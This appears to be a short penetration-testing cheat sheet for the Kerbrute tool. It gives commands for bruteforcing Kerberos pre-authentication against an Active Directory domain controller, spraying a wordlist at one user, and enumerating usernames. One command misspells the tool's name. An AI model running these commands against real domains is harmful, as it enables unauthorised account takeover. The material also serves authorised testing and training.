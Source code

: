 ```yaml
---
title: Kerbrute
desc: Bruteforcing Kerberos pre-auth.
tags: [ActiveDirectory, BruteForce, Kerberos, Linux, Windows]
alts: [Impacket]
website: https://github.com/ropnop/kerbrute
render_with_liquid: false
---
```


## Bruteforce username:password

```sh
kerbrute bruteforce --dc 10.0.0.1 -d example.domain /path/to/combos.txt

# combos.txt example:
# username:password
# admin:admin
# wiener:peter
```

<br />

## Bruteforce user's password

```sh
kerbture bruteuser --dc 10.0.0.1 -d example.domain /usr/share/wordlists/rockyou.txt username
```

<br />

## Enumerate users

```sh
# Get users (--dc: the location of domain controller, -d: domain name)
kerbrute userenum --dc 10.0.0.1 -d example.local /usr/share/wordlists/username.txt
```
